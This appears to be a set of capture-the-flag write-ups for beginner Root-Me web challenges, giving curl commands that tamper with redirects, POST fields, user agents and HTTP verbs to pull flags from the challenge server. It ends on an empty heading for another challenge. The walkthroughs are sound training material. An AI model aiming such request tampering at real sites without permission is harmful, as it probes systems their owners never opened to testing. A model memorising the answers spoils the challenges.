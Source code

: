 ## [HTTP - Improper redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Improper-redirect)

### Steps to reproduce

    - Run curl -v http://challenge01.root-me.org/web-serveur/ch32/login.php?redirect
    - Run curl -v http://challenge01.root-me.org/web-serveur/ch32/index.php?redirect
    - Copy the flag from the response

## [HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

### Steps to reproduce

    - MD5 hash any site e.g. google.com
    - Run a get curl for http://challenge01.root-me.org/web-serveur/ch52/ with url param set to the site and h param set to the hash
    - Copy the flag from the response

## [HTTP - POST](https://www.root-me.org/en/Challenges/Web-Server/HTTP-POST)

### Steps to reproduce

    - Run curl -X POST -F 'score=100000000' -F 'generate=Give+a+try%21' http://challenge01.root-me.org/web-serveur/ch56/
    - Copy the flag from the response

## [HTTP - User-agent](https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent )

### Steps to reproduce

    - Set the user agent to admin (under Edge its in the dev tools Network conditions tab)
    - Reload the page
    - Copy the flag

## [HTTP - Verb tampering](https://www.root-me.org/en/Challenges/Web-Server/HTTP-verb-tampering)

### Steps to reproduce

    - Run curl -v -X OPTIONS http://challenge01.root-me.org/web-serveur/ch8/ 
    - Copy the flag from the response

# 2.  Web application vulnerabilities

## [My Blog](https://ctflearn.com/challenge/979)
